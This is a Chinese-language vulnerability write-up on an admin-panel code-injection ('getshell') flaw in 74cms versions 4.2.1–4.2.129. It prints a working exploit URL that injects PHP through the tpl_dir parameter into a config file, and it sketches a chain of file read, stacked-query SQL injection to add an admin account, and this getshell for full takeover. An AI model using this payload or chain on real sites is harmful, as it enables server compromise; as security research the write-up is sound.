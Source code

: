 74cms v4.2.1-v4.2.129-后台getshell漏洞
======================================

0x00 前言
---------

厂商：74cms下载地址：http://www.74cms.com/download/index.html关于版本：新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。注：此漏洞不用升级至最新版本也可使用。

0x01 74cms升级到最新版
----------------------

1， 先去官网下载 骑士人才系统基础版(安装包)2， 将下载好的包进行安装3， 进入后台点击查看如果不是最新版的话，请点击升级！4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决5，
搜索文件74cms\\upload\\Application\\Admin\\Controller\\ApplyController.class.php6， 查找所有\$\_SERVER\[\'HTTP\_HOST\'\] 改为 http://baidu.com 即可

0x02漏洞演示
------------

![](resource/74cmsv4.2.1-v4.2.129-后台getshell漏洞/media/rId24.png)

    url: http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'

    shell:http://74cms.test/Application/Home/Conf/config.php
    路径：\74cms\upload\Application\Home\Conf\config.php

![](resource/74cmsv4.2.1-v4.2.129-后台getshell漏洞/media/rId25.png)

![](resource/74cmsv4.2.1-v4.2.129-后台getshell漏洞/media/rId26.png)

0x03 漏洞原理
-------------

    url: http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'
    路径：74cms\upload\Application\Admin\Controller\TplController.class.php

![](resource/74cmsv4.2.1-v4.2.129-后台getshell漏洞/media/rId28.png)

    路径： 74cms\upload\Application\Common\Controller\BackendController.class.php

![](resource/74cmsv4.2.1-v4.2.129-后台getshell漏洞/media/rId29.png)

0x04题外话-认真版getshell方法
-----------------------------

认真版getshell方法：实际上想要进行getshell利用组合漏洞是很简单的事情。我的前台日到后台的getshell方法是这样的。首先利用-任意文件读取漏洞-读取系统中的hash值然后在通过漏洞-前台sql注入-来插入用户数据-因为我发现他可以支持执行双语句所以可以执行mysql双语句插入一条管理员用户在通过这个后台getshell漏洞即可完成一套日穿

四、参考链接
------------

> https://www.yuque.com/pmiaowu/bfgkkh/wecilm
